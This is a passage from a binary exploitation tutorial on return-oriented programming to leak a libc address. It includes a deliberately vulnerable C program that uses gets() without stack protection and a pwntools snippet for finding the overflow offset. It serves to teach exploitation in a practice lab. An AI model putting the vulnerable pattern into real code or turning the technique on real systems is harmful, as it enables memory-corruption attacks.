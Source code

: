 # ROP - Leaking LIBC address

## Quick Resume

1. Find overflow offset
2. Find POP\_RDI, PUTS\_PLT and MAIN\_PLT gadgets
3. Find memory address of puts and guess the libc version \(donwload it\)
4. Given the library just exploit it

## Other tutorials and binaries to practice

This tutorial is going to exploit the code/binary proposed in this tutorial: [https://tasteofsecurity.com/security/ret2libc-unknown-libc/](https://tasteofsecurity.com/security/ret2libc-unknown-libc/)  
Another useful tutorial: [https://made0x78.com/bseries-ret2libc/](https://made0x78.com/bseries-ret2libc/)

## Code

Filename: `vuln.c`

```c
#include <stdio.h>

int main() {
    char buffer[32];
    puts("Simple ROP.\n");
    gets(buffer);

    return 0;
}
```

```bash
gcc -o vuln vuln.c -fno-stack-protector  -no-pie
```

## ROP - PWNtools template

\*\*\*\*[**Find my ROP-PWNtools template here.**](rop-pwn-template.md) I'm going to use the code located there to make the exploit.  
Download the exploit and place it in the same directory as the vulnerable binary.

## 1- Finding the offset

The template need an offset before continuing with the exploit. If any is provided it will execute the necessary code to find it \(by default `OFFSET = ""`\):

```bash
####################
#### Find offset ###
####################
OFFSET = ""#"A"*72
if OFFSET == "":
    gdb.attach(p.pid, "c") #Attach and continue
    payload = cyclic(1000)
    print(r.clean())
    r.sendline(payload)
    #x/wx $rsp -- Search for bytes that crashed the application
    #cyclic_find(0x6161616b) # Find the offset of those bytes
    return
```
